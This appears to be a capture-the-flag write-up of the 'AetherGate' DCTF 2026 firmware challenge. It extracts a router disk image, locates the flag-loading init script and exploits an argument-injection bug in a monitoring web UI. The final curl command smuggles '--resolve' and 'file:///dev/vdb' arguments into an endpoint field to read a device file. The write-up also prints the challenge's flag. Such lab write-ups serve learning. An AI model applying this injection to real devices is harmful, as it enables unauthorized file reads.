




**Platform:**  CyberEDU
**Category:**  Misc
**Difficulty:**  Hard
**Date:** 2026-09-19  
**Tags:** misc, dctf2026 quals

---

## Overview
Router baban baaaa....
Format: `DCTF{sha256}`
The challange provides a single file `aethergate-firmware.img` 
## Reconnaissance

Checking first what type of file the `.img` is, we get:

```
[kosynus@kosynus-ctf aether]$ file aethergate-firmware.img 
aethergate-firmware.img: DOS/MBR boot sector
```

Check partition layout:

```
[kosynus@kosynus-ctf aether]$ fdisk -l aethergate-firmware.img
Disk aethergate-firmware.img: 528,5 MiB, 554172416 bytes, 1082368 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x682d2ae8

Device                   Boot Start     End Sectors  Size Id Type
aethergate-firmware.img1 *      512   33279   32768   16M 83 Linux
aethergate-firmware.img2      33792 1082367 1048576  512M 83 Linux
```

2nd partition seems to have more information to provide, being 512M of size, lets extract that

```
[kosynus@kosynus-ctf aether]$ dd if=aethergate-firmware.img of=part2.img bs=512 skip=33792 count=1048576
1048576+0 records in
1048576+0 records out
536870912 bytes (537 MB, 512 MiB) copied, 5,76732 s, 93,1 MB/s
[kosynus@kosynus-ctf aether]$ ls
aethergate-firmware.img  part2.img 
[kosynus@kosynus-ctf aether]$ 7z x -orootfs part2.img

7-Zip 26.03 (x64) : Copyright (c) 1999-2026 Igor Pavlov : 2026-09-03
 64-bit locale=en_US.UTF-8 Threads:16 OPEN_MAX:4096, ASM

Scanning the drive for archives:
1 file, 536870912 bytes (512 MiB)

Extracting archive: part2.img
--          
Path = part2.img
Type = Ext
Physical Size = 536870912
Cluster Size = 4096
Free Space = 455467008
Modified = 2026-09-15 04:00:54
Host OS = Linux
Revision = 1
inode Size = 256
Code Page = UTF-8
Label = rootfs
ID = ff313567e9f15a5d98953ba130b4a864
Characteristics = HAS_JOURNAL EXT_ATTR RESIZE_INODE
Incompatible Features = FILETYPE EXTENTS
Readonly-compatible Features = SPARSE_SUPER LARGE_FILE GDT_CSUM
```

Also extract the contents of the filesystem

```
[kosynus@kosynus-ctf rootfs]$ find . -name "flag.*"
./opt/flag.txt
[kosynus@kosynus-ctf rootfs]$ cat opt/flag.txt
DCTF{training_flag_not_valid_on_remote}
```

Not a valid flag, the format is DCTF{sha256}, after exploring more of the partition I've came to the conclusion that the key files are inside the `opt` folder, looking closer at `opt` we can see:

```
[kosynus@kosynus-ctf rootfs]$ ls -la opt
total 4
drwxr-xr-x 1 kosynus kosynus  46 iun 29 15:59 .
drwxr-xr-x 1 kosynus kosynus 150 sep 19 19:57 ..
drwxr-xr-x 1 kosynus kosynus  34 iun 29 15:59 flagreader
-rw-r--r-- 1 kosynus kosynus  40 sep 15 04:00 flag.txt
drwxr-xr-x 1 kosynus kosynus  66 iun 29 15:59 webui
```

There is also the initialization script that reveals how the real flag gets populated on the remote machine

```
[kosynus@kosynus-ctf rootfs]$ cat etc/init.d/serveflag
#!/bin/sh /etc/rc.common
# procd service for the AetherGate flag dispatcher

USE_PROCD=1
START=95
STOP=10

PROG=/opt/flagreader/serveflag

start_service() {

    # Remote deployment supplies the real flag as a separate read-only
    # virtio device.  The public firmware is byte-for-byte identical and
    # falls back to the training flag baked into /opt/flag.txt.
    if [ -b /dev/vdb ]; then
        dd if=/dev/vdb of=/opt/flag.txt bs=256 count=1 2>/dev/null
    fi

    procd_open_instance serveflag
    procd_set_param command "$PROG"

    procd_set_param respawn 3600 5 0
    procd_set_param stderr 1
    procd_set_param stdout 1
    procd_close_instance
}

reload_service() {
    restart
}
```

The contents of the real flag will go into `/dev/vdb` 
After inspecting `opt/webui/ucilib.py`, the heartbeat and telemetry monitorin functions contain an input handling bug, when submitting endpoints on `/monitor/endpoints` the `urlparse` treats whitespace in the pathhh as valid characters



Another vulnerability is that endpoints are stored in UCI separated by spaces



And because of that, when `run_heartbeat()` is triggered, any injected arguments will execute togheter with the below code:



With that, we can inject the malicious endpoint and get the flag

```
[kosynus@kosynus-ctf ~]$ curl -X POST http://34.185.226.82:30181/monitor/endpoints -H 'Content-Type: application/json' -d '{"endpoints":["http://aethergrid.net/ --resolve aethergrid.net:80:127.0.0.1 file:///dev/vdb"]}'
{"endpoints":["http://aethergrid.net/ --resolve aethergrid.net:80:127.0.0.1 file:///dev/vdb"]}
```

Now send a post request to `/monitor/run` to trigger the execution of hearbeat and the flag should come out


## Flag / Root
`DCTF{cb3fbfc9cbfd932f53b1168adf0591d70ba645738b25fb9551cc20435a86c2e9}`
